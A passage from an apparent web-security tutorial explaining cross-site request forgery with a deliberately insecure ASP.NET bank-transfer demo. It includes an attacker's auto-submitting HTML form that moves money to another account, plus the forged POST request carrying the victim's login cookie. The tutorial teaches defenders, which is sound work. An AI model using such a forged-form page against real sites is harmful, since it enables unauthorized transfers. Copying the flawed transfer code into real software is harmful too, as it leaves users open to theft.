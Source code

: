 ***Disclaimer: Do not write code like this**. This code is for
demonstration purposes only. For example, I don’t ensure that amount
non-negative, which means you can enter a negative value to transfer
money from another account. Like I said, if you see a bank website like
this, run!*

The code is straightforward. We simply transfer money from one account
to another. At this point, everything looks fine. We’re making sure the
user is logged in before we transfer money. And we are making sure that
this method can only be called from a POST request and not a GET request
(this last point is important. **Never allow changes to data via a GET
request**).So what could go wrong?

Well *BadGuy*, another bank user has an idea. He sets up a website that
has a page with the following code:

```csharp
<html>
<head>
    <title></title>
</head>
<body>
    <form name="badform" method="post"
     action="http://localhost:54607/Home/Transfer">
        <input type="hidden" name="destinationAccountId" value="2" />
        <input type="hidden" name="amount" value="1000" />
    </form>
    <script type="text/javascript">
        document.badform.submit();
    </script>
</body>
</html>
```

What he’s done here is create an HTML page that replicates the fields in
bank transfer form as hidden inputs and then runs some JavaScript to
submit the form. The form has its `action` set to post to the bank’s
URL.

When you visit this page it makes a form post back to the bank site. If
you want to try this out, I am hosting [this HTML
here](http://demo.haacked.com/security/csrf-mvc.html "CSRF Attack Demo").
You have to make sure the website sample code is running on your machine
before you click that link to see it working.

Let’s look at the contents of that form post.

>     POST /Home/Transfer HTTP/1.1
>     Referer: https://haacked.com/demos/csrf-mvc.html
>     User-Agent: ...
>     Content-Type: application/x-www-form-urlencoded
>     Host: 127.0.0.1:54607
>     Content-Length: 34
>     Cookie: .ASPXAUTH=98A250...03BB37
>
>     Amount=1000&destinationAccountId=2

